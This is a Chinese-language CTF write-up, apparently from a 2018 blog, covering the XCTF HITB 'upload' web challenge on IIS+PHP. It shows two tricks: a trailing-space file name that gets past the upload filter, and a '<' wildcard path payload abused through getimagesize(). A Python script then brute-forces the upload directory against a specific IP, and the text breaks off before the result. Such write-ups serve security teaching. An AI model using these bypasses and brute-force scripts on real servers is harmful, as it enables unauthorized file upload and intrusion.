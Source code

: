 ```yaml
---
title: XCTF-HIBTweb writeup
url: 296.html
id: 296
categories:
  - CTF
date: 2018-04-14 18:01:06
tags:
---
```


# upload

两个主要功能页面

*   index.html   上传图片 上传之后会返回图片重命名后的名字
*   pic.php?filename=xxx.png    返回图片的长、宽

还有一个很重要的信息，IIS+php ![](http://blog.kingkk.com/wp-content/uploads/2018/04/6af0e9dc49da3c967c81e97aa29148eb.png) 先试着上传一个php文件 ![](http://blog.kingkk.com/wp-content/uploads/2018/04/065f21cdfbff65ec89c609d10cae2b8c.png) 发现做了过滤，可以用一个简单的方法绕过 文件名后加一个空格，windows下会自动去掉 `1.php` （后面有一个空格） ![](http://blog.kingkk.com/wp-content/uploads/2018/04/c7c0e8b93e16db6b3d32944e26f7c1c8.png) 上传成功 ![](http://blog.kingkk.com/wp-content/uploads/2018/04/954b95edcd1c8626004ab2ede26c899a.png) 接下来就是找文件被放到了哪里（自己比赛的时候一直是以为上传完之后文件就被删了，要去upload下竞速找文件。。） 这里应该首先想到windows平台下php文件解析的一个bug 主要是由于php使用了windows提供的一个`FindFirstFileExW()`系统api 在判断文件路径时，有如下特性
```
大于号(>)相等于通配符问号(?) 
小于号(<)相当于通配符星号(*) 
双引号(")相当于点字符(.)
```
详细文章可看如下链接

http://www.freebuf.com/column/164698.html

php中的`getimagesize()`函数恰好在识别文件路径时调用了`FindFirstFileExW()`底层函数 这样就可以顺利的将突破点放在pic.php文件中，利用如下payload
```
http://47.90.97.18:9999/pic.php?filename=../8</1523519201.jpg
```
前缀正确时会返回图片信息，否则error 接下来就可以写脚本爆破了
```python
    #encoding=utf8
    import requests, string
    
    str_rang = string.ascii_letters+string.digits
    base_url = "http://47.90.97.18:9999/pic.php?filename=../{}{}</1523458638.png"
    img_dir = ''
    
    for k in range(40):
    	for i in str_rang:
    		url = base_url.format(img_dir, i)
    		r = requests.get(url)
    		if r.text != "image error":
    			img_dir+=i
    			print(img_dir)
    			break
```
路径如下
